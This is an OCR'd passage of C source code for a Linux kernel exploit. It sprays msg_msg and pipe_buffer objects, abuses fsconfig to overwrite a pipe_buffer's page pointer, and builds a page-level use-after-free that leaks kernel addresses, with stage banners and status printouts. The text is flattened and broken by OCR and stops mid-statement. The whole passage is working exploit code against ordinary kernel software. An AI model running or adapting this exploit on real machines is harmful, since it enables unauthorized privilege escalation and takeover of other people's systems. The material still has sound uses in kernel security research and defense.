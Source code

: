 ```
 Allocating 4k pipe_buffer...");    for (int i = (PIPE_SPRAY_NR - 1); i >= 0; i--) {        if (i == victim_qidx) {            continue;        }        if (read_msg(msqid[i], buf, MSG_SZ, MSG_TYPE) < 0) {            printf("[x] Failed at reading %d msg_queue.\n", i);            err_exit("FAILED to release msg_msg!");        }        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {            printf("[x] Failed at extending %d pipe_buffer.\n", i);            err_exit("FAILED to extend pipe_buffer!");        }        write(pipe_fd[i][1], "arttnba3", 8);        write(pipe_fd[i][1], &i, sizeof(int));        write(pipe_fd[i][1], &i, sizeof(int));        write(pipe_fd[i][1], &i, sizeof(int));        write(pipe_fd[i][1], "arttnba3", 8);        write(pipe_fd[i][1], "arttnba3", 8);  /* prevent pipe_release() */    }    puts("
 Overwriting pipe_buffer->page...");    fsconfig(fs_fd, FSCONFIG_SET_STRING, "ar", "tt", 0);    for (int i = 0; i < ((0x1000 - 8 * 4) / 16); i++) {        fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba", "ratbant", 0);    }    puts("
 Checking for pipe's corruption...");    for (int i = (PIPE_SPRAY_NR - 1); i >= 0; i--) {        char a3_str[0x10];        int nr;        if (i == victim_qidx) {            continue;        }        memset(a3_str, '\0', sizeof(a3_str));        read(pipe_fd[i][0], a3_str, 8);        read(pipe_fd[i][0], &nr, sizeof(int));        if (!strcmp(a3_str, "arttnba3") && nr != i) {            orig_pid = i;            victim_pid = nr;            break;        }    }    if (victim_pid == -1) {        err_exit("FAILED to corrupt pipe_buffer!");    }    printf("\033[32m\033[1m[+] Successfully corrupt pipe_buffer! "           "orig_pid: \033[0m%d, \033[32m\033[1mvictim pipe: \033[0m%d\n",           orig_pid, victim_pid);}void corrupting_second_level_pipe_for_pipe_uaf(void){    size_t buf[0x1000], pipe_buf[0x100];    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ/sizeof(struct pipe_buffer));    puts("\n\033[34m\033[1m"         "Stage III - corrupting second-level pipe_buffer to exploit a "         "page-level UAF"         "\033[0m\n");    memset(buf, '\0', sizeof(buf));    /* let the page's ptr at pipe_buffer */    write(pipe_fd[victim_pid][1], buf, SND_PIPE_BUF_SZ*2 - 24 - 3*sizeof(int));    /* free orignal pipe's page */    puts("
 free original pipe...");    close(pipe_fd[orig_pid][0]);    close(pipe_fd[orig_pid][1]);    /* try to rehit victim page by reallocating pipe_buffer */    puts("
 fcntl() to set the pipe_buffer on victim page...");    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid) {            continue;        }        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {            printf("[x] failed to resize %d pipe!\n", i);            err_exit("FAILED to re-alloc pipe_buffer!");        }    }    /* read victim page to check whether we've successfully hit it */    memset(pipe_buf, '\0', sizeof(pipe_buf));    read(pipe_fd[victim_pid][0], buf, SND_PIPE_BUF_SZ - 8 - sizeof(int));    read(pipe_fd[victim_pid][0], pipe_buf, 40);    for (int i = 0; i < (40 / 8); i++) {        printf("[----data dump----][%d] %lx\n", i, pipe_buf[i]);    }    /* I don't know why but sometimes the read will be strange :( */    if (pipe_buf[4] == 0xffffffff) {        memcpy(&info_pipe_buf, &((char*)pipe_buf)[12], 40);    } else {        memcpy(&info_pipe_buf, pipe_buf, 40);    }    printf("\033[34m\033[1m[?] info_pipe_buf->page: \033[0m%p\n"            "\033[34m\033[1m[?] info_pipe_buf->offset: \033[0m%x\n"           "\033[34m\033[1m[?] info_pipe_buf->len: \033[0m%x\n"           "\033[34m\033[1m[?] info_pipe_buf->ops: \033[0m%p\n"           "\033[34m\033[1m[?] info_pipe_buf->flags: \033[0m%x\n"           "\033[34m\033[1m[?] info_pipe_buf->private: \033[0m%lx\n",            info_pipe_buf.page,            info_pipe_buf.offset,            info_pipe_buf.len,            info_pipe_buf.ops,            info_pipe_buf.flags,           info_pipe_buf.private);    if ((size_t) info_pipe_buf.page < 0xffff000000000000        || (size_t) info_pipe_buf.ops < 0xffffffff81000000) {        err_exit("FAILED to re-hit victim page!");    }    puts("\033[32m\033[1m[+] Successfully to hit the UAF page!\033[0m");    printf("\033[32m\033[1m[+] Got page leak:\033[0m %p\n", info_pipe_buf.page);    puts("");    /* construct a second-level page uaf */    puts("
 construct a second-level uaf pipe page...");    //info_pipe_buf.offset = 8;    //info_pipe_buf.len = 0xf00;    for (int i = 0; i < 35; i++) {        write(pipe_fd[victim_pid][1], &info_pipe_buf, sizeof(info_pipe_buf));        write(pipe_fd[victim_pid][1],buf,SND_PIPE_BUF_SZ-sizeof(info_pipe_buf));    }    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        char tmp_bf[0x10];        int nr;        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid) {            continue;        }        read(pipe_fd[i][0], &nr, sizeof(nr));        if (nr == 0x74747261) {            read(pipe_fd[i][0], tmp_bf, 4);            read(pipe_fd[i][0], &nr, sizeof(nr));        }        printf("
```